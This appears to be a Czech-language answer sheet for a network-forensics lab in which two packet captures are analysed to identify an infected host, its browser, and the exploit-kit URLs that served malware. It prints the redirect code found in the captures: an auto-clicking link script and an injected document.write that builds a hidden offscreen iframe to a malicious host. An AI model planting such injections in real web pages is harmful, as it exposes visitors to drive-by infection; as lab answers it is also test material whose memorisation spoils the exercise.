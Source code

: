 # Zadání první části – soubor uloha1.pcap

### 1. Jaká je IP adresa stanice, která byla infikována?

```
127.80.179.181
```

### 2. Jaký prohlížeč infikovaná stanice používala?

Internet Explorer 8.0

```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

### 3. Jaká je URL, ze které byl exploit stažen?

```
http://static.this-is-not-a-botnet.com/3h251q2c35
```

### 4. Jaká je URL webové stránky, ze které se stanice dostala na URL s exploitem?

```
http://akronkappas.com//d2a42e1f7d9a1021bd7d93af414c95c4.php?q=70a9b40eb73da11445c3a3609c8241d9
```

### 5. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```
<a id='myLink' href='http://static.this-is-not-a-botnet.com/3h251q2c35'>click</a><script>document.getElementById('myLink').click();</script>
```

# Zadání druhé části – soubor uloha2.pcap [?](https://itexamanswers.net/27-2-15-lab-investigating-a-malware-exploit-answers.html)

### 1. Která URL adresa (uveďte alespoň doménu) způsobila infekci stanice?

```
http://www.homeimprovement.com/remodeling-your-kitchen-cabinets.html
```

### 2. Jak se uživatel dostal na danou doménu?

```
http://www.bing.com/search?q=home+improvement+remodeling+your+kitchen&qs=n&sp=-1&pq=home+improvement+remodeling+your+kitchen&sc=0-40&sk=&cvid=194EC908DA65455B9E9A98285A33132B&first=7&FORM=PERE
```

### 3. Samotný malware je uložen na jiné (externí) URL adrese. Jaká je to adresa?

```
http://p27dokhpz2n7nvgr.1jw2lx.top/EE7E-AD39-7D8C-080C-18BF?iframe&_=1485557725652
```

### 4. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

Script `http://retrotip.visionurbana.com.ve/dle_js.js` na adrese `http://www.homeimprovement.com/remodeling-your-kitchen-cabinets.html`

```
document.write('<div class="" style="position:absolute; width:383px; height:368px; left:17px; top:-858px;">  <div  style="" class=""><a>head</a><a class="head-menu-2"> </a><iframe src="http://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya" width=290 height=257 ></ifr' +'ame> <a style=""></a></div><a class="" style="">temp</a></div>');
```
